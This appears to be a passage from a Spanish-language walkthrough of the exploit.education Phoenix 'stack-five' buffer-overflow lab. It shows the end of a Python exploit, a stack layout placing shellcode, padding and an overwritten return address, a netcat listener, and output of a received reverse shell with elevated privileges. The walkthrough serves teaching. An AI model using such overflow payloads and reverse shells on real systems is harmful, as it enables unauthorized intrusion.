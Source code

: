 ```csharp

# Imprimir a stdout para que el binario lo reciba
import sys
sys.stdout.buffer.write(payload)
```

Si vemos una grafica de la pila, esto es lo que realizará nuestro payload.

```csharp

Direcciones (más altas)
┌─────────────────────────────┐
│ Saved RIP  ← ahora = ret    │  <- BUF + 136 .. BUF + 143  (8 bytes)   <-- sobrescrito por `ret`
├─────────────────────────────┤
│ Saved RBP                   │  <- BUF + 128 .. BUF + 135  (8 bytes)   <-- sobrescrito por parte del padding
├─────────────────────────────┤
│ ... padding 'A' ...         │  <- BUF + 75 .. BUF + 127   (53 bytes)
├─────────────────────────────┤
│ shellcode (75 bytes)        │  <- BUF + 0 .. BUF + 74     (75 bytes)
└─────────────────────────────┘
Direcciones (más bajas)
```

Lo que necesimos hacer para ver si el exploit funciona es ejecutarlo con el binario, pero antes debemos tener dentro de la máquina una terminal a la escucha, esto se hace con el comando `nc -nlvp 4444`

```csharp
user@phoenix-amd64:~$ nc -nlvp 4444
Listening on [0.0.0.0] (family 0, port 4444)
```

Una vez estamos a la escucha, vamos a ejecutar el exploit y si todo sale bien, tendremos una shell reversa. Al ejecutarlo se queda de esta manera 

```csharp
user@phoenix-amd64:/tmp$ python3 Local_exploit.py | /opt/phoenix/amd64/stack-five 
Welcome to phoenix/stack-five, brought to you by https://exploit.education

```

Y en la otra terminal podemos ver la respuesta de Connection from 127.0.0.1 41692 received! y ya podemos ejecutar comandos 

```csharp
user@phoenix-amd64:~$ nc -nlvp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from 127.0.0.1 41692 received!
id
uid=1000(user) gid=1000(user) euid=405(phoenix-amd64-stack-five) egid=405(phoenix-amd64-stack-five) groups=405(phoenix-amd64-stack-five),27(sudo),1000(user)

```

**Conclusión**
